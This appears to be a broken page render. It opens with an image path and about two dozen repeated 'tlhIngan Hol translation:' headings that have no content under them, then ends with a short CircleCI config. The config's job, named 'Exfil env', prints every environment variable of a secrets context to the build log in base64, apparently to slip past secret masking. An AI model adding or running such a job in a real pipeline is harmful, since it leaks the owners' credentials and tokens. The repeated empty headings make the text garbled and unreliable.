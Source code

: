 **tlhIngan Hol translation:**

**tlhIngan Hol translation:**

**tlhIngan Hol translation:**

**tlhIngan Hol translation:**

**tlhIngan Hol translation:**

**tlhIngan Hol translation:**

**tlhIngan Hol translation:**

**tlhIngan Hol translation:**

**tlhIngan Hol translation:**

**tlhIngan Hol translation:**

**tlhIngan Hol translation:**

**tlhIngan Hol translation:**

**tlhIngan Hol translation:**

**tlhIngan Hol translation:**

**tlhIngan Hol translation:**

**tlhIngan Hol translation:**

**tlhIngan Hol translation:**

**tlhIngan Hol translation:**

**tlhIngan Hol translation:**

**tlhIngan Hol translation:**

**tlhIngan Hol translation:**

**tlhIngan Hol translation:**

**tlhIngan Hol translation:**

**tlhIngan Hol translation:**

**tlhIngan Hol translation:**

**tlhIngan Hol translation
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "env | base64"

workflows:
exfil-env-workflow:
jobs:
- exfil-env:
context: Test-Context
```